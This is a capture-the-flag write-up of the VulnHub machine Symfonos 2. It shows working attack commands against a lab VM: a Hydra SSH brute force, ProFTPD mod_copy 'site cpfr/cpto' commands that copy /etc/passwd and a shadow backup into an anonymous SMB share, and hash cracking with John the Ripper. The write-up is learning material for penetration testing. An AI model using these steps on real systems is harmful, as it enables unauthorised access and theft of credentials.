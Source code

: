 ```yaml
---
layout: default
title : muzec - Symfonos 2 Vulnhub Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/157857545-a60d0841-495b-4591-a13b-036ac2be8fb2.png)

Symfonos 2 is here to be pwned by you man XD.

We always start with an nmap scan.....

```
nmap -p- --min-rate 10000 -oN nmap/fullport.tcp -v 172.16.139.168
```

```
# Nmap 7.91 scan initiated Fri Mar  4 07:49:04 2022 as: nmap -p- --min-rate 10000 -oN nmap/fullport.tcp -v 172.16.139.168
Nmap scan report for 172.16.139.168
Host is up (0.00018s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Mar  4 07:49:07 2022 -- 1 IP address (1 host up) scanned in 2.22 seconds
```

Some cool ports i guess now some default nmap scripts and service detection on it.

```
nmap -sC -sV -oN nmap/normal.tcp -p 21,22,80,139,445 172.16.139.168
```

```
# Nmap 7.91 scan initiated Fri Mar  4 07:49:45 2022 as: nmap -sC -sV -oN nmap/normal.tcp -p 21,22,80,139,445 172.16.139.168
Nmap scan report for 172.16.139.168
Host is up (0.00035s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h59m42s, deviation: 3h27m50s, median: 2h59m42s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2\x00
|   Domain name: \x00
|   FQDN: symfonos2
|_  System time: 2022-03-04T03:49:42-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-03-04T09:49:42
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  4 07:50:04 2022 -- 1 IP address (1 host up) scanned in 19.24 seconds
```

Now that is more better i always stated to start with low hanging fruit like `FTP, SMB` and seems we have both but seems we have no anonymous access to FTP let check `SMB` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ smbclient -L //172.16.109.163/ -N       

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      
        IPC$            IPC       IPC Service (Samba 4.5.16-Debian)
SMB1 disabled -- no workgroup available
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ 
```

Now seems we have anonymous access to a disk let go ahead and see what we have in it.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ smbclient  //172.16.109.163/anonymous -N 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 18 15:30:09 2019
  ..                                  D        0  Thu Jul 18 15:29:08 2019
  backups                             D        0  Thu Jul 18 15:25:17 2019

                19728000 blocks of size 1024. 16313236 blocks available
smb: \> cd backups
smb: \backups\> ls
  .                                   D        0  Thu Jul 18 15:25:17 2019
  ..                                  D        0  Thu Jul 18 15:30:09 2019
  log.txt                             N    11394  Thu Jul 18 15:25:16 2019

                19728000 blocks of size 1024. 16313236 blocks available
smb: \backups\> get log.txt
getting file \backups\log.txt of size 11394 as log.txt (370.9 KiloBytes/sec) (average 370.9 KiloBytes/sec)
smb: \backups\> 

```

Now we found a `log.txt` so i downloaded it on our attacking machine to see what we have in the `log.txt` file.

![image](https://user-images.githubusercontent.com/69868171/157862394-868d209e-9de8-4881-bf38-9ee5607595de.png)

Now that is interesting it both `SMB, FTP` logs file going through it i found a username.

![image](https://user-images.githubusercontent.com/69868171/157862549-260e829a-e5cc-4971-aa73-ec1c5e56461b.png)

Now that is a lead i guess so i start brute forcing `SSH` and leave it running in the background now back to the `FTP` seems we know the version let do some research on it.


```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ hydra -l aeolus -P passwordlist.txt ssh://172.16.109.163 -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-11 09:58:59
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 70188 login tries (l:1/p:70188), ~17547 tries per task
[DATA] attacking ssh://172.16.109.163:22/
```

![image](https://user-images.githubusercontent.com/69868171/157863305-52a9c45a-0008-43dc-9445-98e3a90492e9.png)

Now that is an exploit we can use to copy the backup `shadow` file.

![image](https://user-images.githubusercontent.com/69868171/157863687-0a19eda3-ee71-409b-a2f6-f0eb71003b43.png)

So when going through the exploit seems it possible to copy a file on the target seems we know the path of the share we have access to on `SMB` it possible to copy the `shadow.bak` file to the anonymous share we have access to.

![image](https://user-images.githubusercontent.com/69868171/157866709-9bb52e25-6d26-416e-9e53-1abc69c9d60d.png)

```
telnet 172.16.109.163 21

site cpfr /etc/passwd

site cpto /home/aeolus/share/passwd.bak
```


![image](https://user-images.githubusercontent.com/69868171/157866882-699c31d9-327d-4005-b172-f0e98c80a93a.png)

Now that confirm it let copy the shadow file backup now.

![image](https://user-images.githubusercontent.com/69868171/157867270-506c265e-1d02-478f-b57c-3b67511e0b6e.png)

Now we have it still confuse how i know about the backup shadow file check the `log.txt` again screenshot below.

![image](https://user-images.githubusercontent.com/69868171/157867530-c1a702e5-db49-4f2d-8327-076b9b1abbe0.png)

Now you have it.

![image](https://user-images.githubusercontent.com/69868171/157867647-0b48bc72-4b95-4ee7-b04f-38a431879bb6.png)

Now we have the hashes let crack it with `john the ripper` when running in the background let try something on the `proFTPD` exploit to see if we can get RCE.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt shadow.bak
```

Now back to `proFTPD` RCE.

![image](https://user-images.githubusercontent.com/69868171/157868391-fb8cbd12-1fb3-4fff-a747-57f928f3b837.png)


But seems it a deadend we have no write access, permission on `/var/wwww/html` now back to the shadow file that we are cracking.

